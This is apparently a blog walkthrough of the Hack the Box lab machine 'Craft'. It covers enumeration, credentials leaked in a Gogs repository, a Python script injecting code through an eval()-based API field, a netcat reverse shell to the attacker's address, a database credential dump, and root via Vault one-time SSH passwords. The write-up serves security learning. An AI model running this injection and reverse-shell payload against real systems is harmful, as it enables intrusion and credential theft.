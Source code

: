 +++
author = "Nick"
categories = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
date = 2020-01-04T16:39:23Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info.png"
slug = "hack-the-box-craft"
summary = "Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!"
tags = ["api", "CTF", "enumeration", "netcat", "python", "web services", "custom exploit", "Gogs"]
title = "Hack the Box - Craft"

+++


Welcome back friends! Today we'll be doing the brand new box, Craft. This will be the first time I do a box as it's released and hope to continue this trend! So lets jump in!

Update: I should probably buy the Pro subscription from HtB. Doing a new box as it's released proved challenging. Often unresponsive and rebooting frequently. Lessons learned I guess.

As always, we kick it off with a standard nmap scan.

```bash
nmap -sC -sV -oA Craft/scan 10.10.10.110
```

We see a pretty limited amount of results.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-15 16:11 EDT
Nmap scan report for 10.10.10.110
Host is up (0.52s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.08 seconds
```

Seems pretty low, lets try another swing at the nmap, but all ports.

![](/images/2019/07/image-21.png)

We see that port 6022 is open. I telnet into the port and get back what looks like some SSH responses.

![](/images/2019/07/image-22.png)

Looks like its using SSH-go as the server on this port. When we try to ssh into that port, we are prompted for a SSH key. We'll come back to this it seems.

We see the site being hosted on the box is talking about an API as well as a link to the API and its git repository, which is also locally hosted. Maybe some API enumeration? The API page has options to execute the API command and return the result back, we might be able to leverage this later on to get it to run something we want. So lets add some hostname entries so we can resolve better. We'll add api.craft.htb, craft.htb and gogs.craft.htb. Now that we can resolve those, lets check it our a bit more in depth.

The first stop will be to take a look at the git repository. In this case we're going to look through the commit history to see what we can find. We'll want to enumerate all of our domains. A run of Dirbuster against gogs.craft.htb and we see our users. If we dig though the personal history, we see that Dinesh has left us a nice script, with authorization inside it!

![](/images/2019/07/image-93.png)

If we take this script and recreate it, we get a valid authentication using those credentials. We can also test it against the API page to validate and download the token. Looks like we can use these credentials to authenticate to gogs.craft.htb as well.

When we are sifting though the notes we see 1 issue. This shows a possible problem with the ABV value.

![](/images/2019/07/image-94.png)

When we look at the changes made, we see it's using the function eval(). This is might be the way in. We can leverage this function to call remote code! More on why eval() is bad, here and here.

So what we'll do is modify the script Dinesh made for testing. We'll simply pass it `__import__('os').system('nc 10.10.10.15.248 1337 -e /bin/sh')` and get a netcat shell back and see what we can find. Here's what our modified code looks like:

```python
#!/usr/bin/env python

import os
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']
headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '15'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)

# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'nc 10.10.15.248 1337 -e \/bin\/sh\')'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'Junk'
json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

After we run our codewe get a netcat connection!

![](/images/2019/07/image-95.png)

Well, this sends us to /opt/app as root, but when we look around, there's nothing here. It seems we're in a docker container. So in this case, we're going to head bad to where we landed and see whats here. When we run dbtest.py, we get back what the script is calling, so maybe we should try and modify it so we can dump some info.

Here's what our modified code looks like:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database
print("Host: "+ settings.MYSQL_DATABASE_HOST)
print("User: "+ settings.MYSQL_DATABASE_USER)
print("Password: "+ settings.MYSQL_DATABASE_PASSWORD)
print("Database: "+ settings.MYSQL_DATABASE_DB)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "select * from user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

After we run our script, we get the following back:

![](/images/2019/07/image-96.png)

We now have three login credentials, lets see if any of these work on SSH. No dice. Lets try to log into Gogs with these. Turns our Gilfoyle's works. Now we can browse around what Gilfoyle has been doing. He has another repository as well. On inspection it seems to be the docker container that we are hosting the service in. When we check out the changes, we see a private key. We'll save this file and use it to authenticate via SSH.

![](/images/2019/07/image-97.png)

Great we are in. Now we can snag our user.txt and look for a way to pivot to root. Once we've explored the system, we notice that there is a program called [Vault](https://www.vaultproject.io/docs/install/index.html). I've never worked with this application before but gaining root was actually very easy once I knew what I was looking for and how Vault functions. After reading documentation for a few hours and trying many MANY commands (and failing) to gather what info I could on the structure that was setup, I had to take a step back and rethink the entry points. Then I realized that Vault has documents on SSH and keysigning. Lucky for us [Vault has a document](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html) on how to do just that! We follow that document through and....

![](/images/2019/08/image.png)

We get in using OTP. To the flag!

![](/images/2019/08/image-1.png)

We did it, both flags captured. This was a fun and new box for me. I learned a lot on some software I've never used before.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

